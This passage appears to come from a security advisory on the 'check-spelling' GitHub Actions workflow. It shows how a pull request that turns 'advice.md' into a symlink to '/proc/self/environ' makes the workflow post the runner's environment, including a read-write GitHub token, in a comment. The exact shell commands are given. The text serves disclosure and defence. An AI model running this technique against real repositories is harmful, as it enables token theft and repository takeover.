 ## Abuse of `advice.md` using symbolic links

Recall that the `check-spelling` workflow can be configured via the files in `.github/actions/spelling/`. One of these files is `advice.md` which is incorporated into the Pull Request comment posted by the `check-spelling` workflow. Importantly, **it is the `advice.md` within the Pull Request submitter's branch that will be used by the workflow**. Furthermore, it is possible to include symbolic links within git repos, including symbolic links to files outside of the repo. By creating a symbolic link named `.github/actions/spelling/advice.md` that points to `/proc/self/environ`, the Pull Request submitter can cause the workflow to leak the contents of the GitHub Actions environment within a Pull Request comment. In the case of the `check-spelling` workflow, the environment can be shown to include a `INPUT_GITHUB_TOKEN` value which can further be shown to be a short-lived GitHub API key that provides read and write permissions as the target repo.

## Demo of symbolic link abuse

Continuing on from where our previous demo left off, as the Pull Request submitter user (gleefulatlantis), push a commit to the existing Pull Request branch which causes the `advice.md` file to be a symlink to `/proc/self/environ`:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % rm .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % ln -s /proc/self/environ .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git add .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git commit -m "Symlink advice.md to environ"
[my_contribution 874716f] Symlink advice.md to environ
 1 file changed, 1 insertion(+), 27 deletions(-)
 rewrite .github/actions/spelling/advice.md (100%)
 mode change 100644 => 120000

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git push
Enumerating objects: 11, done.
Counting objects: 100% (11/11), done.
Delta compression using up to 8 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (6/6), 513 bytes | 513.00 KiB/s, done.
Total 6 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Resolving deltas: 100% (1/1), completed with 1 local object.
To github.com:gleefulatlantis/spellchecked.git
   14f1eab..874716f  my_contribution -> my_contribution
```

By pushing this commit to the Pull Request's source branch, the `check-spelling` workflow will re-evaluate the contents of the source branch and will again post a comment showing the spelling errors. The text of this comment will include the contents of the `advice.md` file, and hence will disclose the contents of `/proc/self/environ`.
